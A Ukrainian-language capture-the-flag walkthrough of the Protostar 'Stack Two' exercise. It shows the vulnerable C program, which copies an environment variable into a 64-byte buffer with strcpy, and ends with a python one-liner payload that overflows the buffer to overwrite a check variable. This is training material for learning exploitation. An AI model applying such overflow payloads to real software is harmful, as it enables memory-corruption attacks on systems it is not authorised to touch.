 ## [Stack Two](http://exploit.education/protostar/stack-two/)

На даному рівні розглядаються змінні середовища та те, як їх можна встановити.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Тут ми маємо схожу ситуацію до Stack1. Але є дві великі відмінності. По-перше, ```strcpy()``` використовує змінну, яка походить із створеної змінної середовища ```GREENIE```. 
По-друге, шістнадцяткові значення 0x0d та 0x0a відповідають поверненню каретки та новому рядку відповідно, які ми не можемо ввести у вигляді символів (наприклад, як 'abcd' у Stack1).

Змінну оточення можна легко задати, використовуючи команду ```export```:  
```export GREENIE=test_env```

Для перевірки можна використати наступну команду:  
```env | grep GREENIE```

У тому числі змінну оточення можна задати використовуючи код python:  
```export GREENIE=$(python -c "print('python_test_env')")```

Стосовно другої проблеми, то можна просто використовувати формат '\x0d', який є у python.

Отже, маємо:  
```export GREENIE=$(python -c "print('a' * 64 + '\x0d\x0a\x0d\x0a'[::-1])"); ./stack2```